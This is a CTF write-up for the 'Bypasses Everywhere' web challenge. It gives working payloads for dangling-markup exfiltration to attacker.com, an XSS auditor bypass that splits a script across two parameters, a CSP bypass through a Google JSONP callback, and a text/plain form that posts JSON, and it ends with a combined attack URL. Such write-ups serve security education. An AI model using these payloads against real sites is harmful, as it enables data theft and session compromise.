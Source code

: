 # Bypasses Everywhere - writeup

## Dangling markup - leaking code source

At `https://bypasses-everywhere.ctf.insecurity-insa.fr/admin` we are being told that if this page is accessed from `http://127.0.0.1:8080` we should be able to see more interesting stuff.

On the same page there is a vulnerable parameter `picture` which leads to a dangling markup attack:
`https://bypasses-everywhere.ctf.insecurity-insa.fr/admin?picture="><img src='http://attacker.com/?p=`

By submitting this url to the "admin" we can leak the hidden content:
POST ; https://bypasses-everywhere.ctf.insecurity-insa.fr/url ; data: "url=http://127.0.0.1:8080/admin?picture="><img src='http://attacker.com/?p="

Soon enough we will get on our server the content of the `server-files/admin.py` file.

## XSS

Now we know that our goal is to POST a JSON payload to the /article endpoint.

To do this we will need an XSS, the injection we have on `https://bypasses-everywhere.ctf.insecurity-insa.fr/admin` is not sufficient because the "admin" is actually a chromium-headless browser (you can see it in the User-Agent header). So the XSS auditor is blocking the injection (at least I don't know any bypass, please tell me if I'm wrong on twitter: @HugoDelval)

Another endpoint is vulnerable to XSS the /article endpoint, its specificity is that there are 2 parameters that are vulnerables, which leads to an XSS auditor bypass:

https://bypasses-everywhere.ctf.insecurity-insa.fr/article?time=<script>al&unit=ert()</script>

## CSP

The previous XSS bypass would normally work BUT the website is also protected by a CSP: `script-src: www.google.com`. Which means that our payload, which could have done the POST we want to fetch the flag, won't work here. If you open the developper console on chromium at `https://bypasses-everywhere.ctf.insecurity-insa.fr/article?time=<script>al&unit=ert()</script>` you'll see the error.

Hopefully CSP can be bypassed (wow really? you didn't see it comming, right?). Here is a really good paper about this: `https://storage.googleapis.com/pub-tools-public-publication-data/pdf/45542.pdf`

The only URL endpoint I've found on the `www.google.com` subdomain is this one: `https://www.google.com/jsapi?callback=alert` (again if you have others I would love to know :D). Which mean that our previous XSS payload can be written as:
`https://bypasses-everywhere.ctf.insecurity-insa.fr/article?time=<script src=https://ww>&unit=w.google.com/jsapi?callback=alert></script>`

\o/ Hurray! XSS!

## Posting "JSON"

The last step is to post a json-like payload to the /admin endpoint. Here how I did it:

```html
<form method=post enctype=text/plain>
	<input name='{"secret":"No one will never ever access this beauty","url":"http://attacker.com/","a":"' value='"}'>
</form>
document.forms[0].submit()
```

Which will post:

```json
{
	"secret": "No one will never ever access this beauty",
	"url": "http://attacker.com/",
	"a": "="
}
```

## Wrapping it all together

To solve this challenge we need to submit this URL to the admin:

`http://127.0.0.1:8080/article?time=<form method=post enctype=text/plain><input name='{"secret":"No one will never ever access this beauty","url":"http://attacker.com/","a":"' value='"}'></form><script src=https://ww&unit=w.google.com/jsapi?callback=document.forms[0].submit></script>`

Which will:
1. Fetch the page on the local url (the chromium-headless admin is running on localhost)
2. Bypass the chrome XSS auditor (splitting the payload into 2 url parameters)
3. Bypass the CSP using `https://www.google.com/jsapi?callback=alert`
4. Post a JSON payload using the `enctype=text/plain` trick

## Thanks

Thanks for reading.

I hope this writeup is clear enough :) if not, please reach out -> twitter@HugoDelval

